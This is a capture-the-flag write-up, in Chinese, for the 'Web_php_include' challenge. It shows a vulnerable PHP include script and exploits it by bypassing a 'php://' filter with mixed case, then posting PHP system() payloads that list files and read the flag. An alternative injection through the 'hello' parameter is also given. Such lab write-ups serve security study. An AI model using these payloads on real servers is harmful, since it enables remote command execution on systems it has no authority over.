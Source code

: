 # Web_php_include

难度系数: 2.0

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

使用 `GET` 方式上传的 `hello` 直接显示它的内容. 同样使用 `GET` 方式上传的 `page` 会经过检查 `strstr($page, "php://")`. 如果包含任何 `php://` 都会删除. 然后读取文件 `page` 的内容.

我们可以简单绕过 `strstr()` 使用大小写, 利用伪协议执行 `Linux` 命令.

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22

<?php system("ls"); ?>
```

得到 `flag` 文件 `fl4gisisish3r3.php`.

最后只需要读取这文件:

```
GET /?hello=1%0a&page=pHp://input HTTP/1.1
Host: 111.200.241.244:63890
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 42

<?php system("cat fl4gisisish3r3.php"); ?>
```

`xctf` 的解题方式很漂亮: 

`?page=http://127.0.0.1/index.php/?hello=<?system("ls");?>`

利用 `hello` 执行命令写在 `http://127.0.0.1/index.php` 上, 然后用 `include($page)` 读取内容.
